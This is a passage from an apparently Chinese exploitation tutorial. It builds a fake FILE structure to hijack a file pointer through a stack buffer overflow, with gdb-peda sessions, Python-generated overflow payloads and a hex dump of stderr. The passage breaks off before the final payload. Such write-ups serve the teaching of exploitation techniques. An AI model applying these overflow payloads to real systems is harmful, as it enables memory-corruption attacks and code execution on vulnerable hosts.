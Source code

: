 当我用`r $(python -c "print 'a'*1041 + 'AAAA'")`跑的时候，可以控制 ESI。

![p2](http://drops.javaweb.org/uploads/images/cfb3060d3f789c6d67dac9b925132f8b77394b80.jpg)

如图，ESI 已经被控制成 0x41414141，那么这里就是我们控制的文件指针了。我们把整个文件结构体放在栈上， AAAA 的前面 160 个字节。AAAA 也改成指向文件指针开头的地方。

```
gdb-peda$ searchmem AAAA
Searching for 'AAAA' in: None ranges
Found 3 results, display max 3 items:
[stack] : 0xffffd364 ("AAAAR\345td]V\376\367\257\213", <incomplete sequence \342>...)
[stack] : 0xffffd78c ("AAAA")
[stack] : 0xffffdd95 ("AAAA")

```

当前 AAAA 的地址为 0xffffd78c，减去 160 个字节后就是 0xffffd6ec。那么构造 payload：

```
r $(python -c "print 'a'*881 + 'B'*160 + '\xec\xd6\xff\xff'")

```

![p3](http://drops.javaweb.org/uploads/images/1266a86e78c8e6dab11cff40caac7b1365196684.jpg)

报了新的错？没关系，take it easy，现在就开始构造 FILE struct 了。

我们知道 stderr 是一个标准的 FILE 结构体，那我们直接拿它的，在它的基础上改成我们需要的就好了。

```
gdb-peda$ x/160bx stderr
0xf7fbb980: 0x86    0x20    0xad    0xfb    0x00    0x00    0x00    0x00
0xf7fbb988: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xf7fbb990: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xf7fbb998: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xf7fbb9a0: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xf7fbb9a8: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xf7fbb9b0: 0x00    0x00    0x00    0x00    0x20    0xba    0xfb    0xf7
0xf7fbb9b8: 0x02    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xf7fbb9c0: 0xff    0xff    0xff    0xff    0x00    0x00    0x00    0x00
0xf7fbb9c8: 0xac    0xc8    0xfb    0xf7    0xff    0xff    0xff    0xff
0xf7fbb9d0: 0xff    0xff    0xff    0xff    0x00    0x00    0x00    0x00
0xf7fbb9d8: 0x60    0xbb    0xfb    0xf7    0x00    0x00    0x00    0x00
0xf7fbb9e0: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xf7fbb9e8: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xf7fbb9f0: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xf7fbb9f8: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xf7fbba00: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xf7fbba08: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0xf7fbba10: 0x00    0x00    0x00    0x00    0x80    0xaa    0xfb    0xf7
0xf7fbba18: 0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00

```

经过处理后的到这么一长串：
